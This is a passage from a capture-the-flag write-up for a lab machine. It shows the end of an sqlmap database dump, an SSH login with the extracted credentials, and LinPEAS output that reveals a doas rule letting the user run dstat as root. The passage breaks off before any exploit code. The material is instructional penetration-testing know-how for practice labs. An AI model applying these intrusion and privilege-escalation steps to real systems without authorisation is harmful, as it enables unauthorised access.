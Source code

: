```bash
[19:35:24] [INFO] fetched data logged to text files under '/home/ehogue/.local/share/sqlmap/output/soc-player.soccer.htb'

[*] ending @ 19:35:24 /2023-01-25/
```

I connected to the server with the extracted credentials.

```bash
$ ssh player@target
The authenticity of host 'target (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
player@target's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 26 00:36:23 UTC 2023

  System load:           0.0
  Usage of /:            72.1% of 3.84GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             232
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:2185

...

Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ ls
user.txt

player@soccer:~$ cat user.txt
REDACTED
```

## Exploiting dstat

Once connected as player, I started looking at ways to get root. I looked around the server, checking for sudo, suid, binaries, cronjobs, running programs, ... I did not find anything that would help me elevate my privileges.

I downloaded [LinPEAS](https://github.com/carlospolop/PEASS-ng) on the server and ran it.

```bash
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens
ptrace protection is enabled (1)
gdb wasn't found in PATH, this might still be vulnerable but linpeas won't be able to check it

╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
